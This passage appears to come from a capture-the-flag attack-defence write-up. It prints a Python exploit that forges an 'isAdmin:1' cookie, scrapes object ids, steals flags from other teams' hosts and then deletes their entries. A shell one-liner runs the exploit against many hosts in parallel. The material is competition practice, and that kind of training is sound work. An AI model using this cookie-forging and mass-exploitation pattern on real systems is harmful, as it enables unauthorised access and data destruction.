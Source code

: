 ```python
    return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(20))

s = requests.Session()
s.cookies.set("settings", "isAdmin:1", domain=host)
data = {
    "username": gen_rand(),
    "password": gen_rand()
}

r = s.post(f"https://{host}/register", data=data)
ids = list(set(re.findall(r"[a-f0-9]{24}", r.text)))
counter = 0
while len(ids)==0:
    counter+=1
    if counter==100:
        print(f"{host} is patched?")
        exit()
    time.sleep(2)
    r = s.get(f"https://{host}/")
    ids = list(set(re.findall(r"[a-f0-9]{24}", r.text)))
all_flags = []
for id in ids:
    r = s.get(f"https://{host}/edit/{id}")
    flags = re.findall(r"TEAM\d{3}_[A-Z0-9]{32}", r.text)
    for flag in flags:
        all_flags.append(flag)
for flag in all_flags:
    print(flag)
    os.system(f"../atk flag submit {flag}")
for id in ids:
    r = s.get(f"https://{host}/delete/{id}")
```

One of the disadvantages of using ataka to run the exploit is that it wont run against all the hosts in parallel, only a subset (idk how many) so instead we avoided using ataka to run this one and instead chose to run it with xargs:
```sh
echo "python3 pure3.py $1 > out/$1 2>&1" > pure.sh
chmod +x pure.sh
mkdir out
cat pure_hosts.txt | xargs -n1 -P100 ./pure.sh
```
We also added a counter to the while loop to try and weed out servers that were no longer vulnerable and stop them wasting server resources. Because we no longer used ataka for handling running the exploit we needed to submit flags a different way. I chose to invoke the atk file provided to do that but this is very slow. However overall its not too negative on our exploit - if we get to that point we've won a race for flags already.

This exploit doesn't loop as it was intended to just identify what servers were still vulnerable.
The next version simply wrapped the exploit in an infinite while loop with a try except to avoid crashing to random http errors.
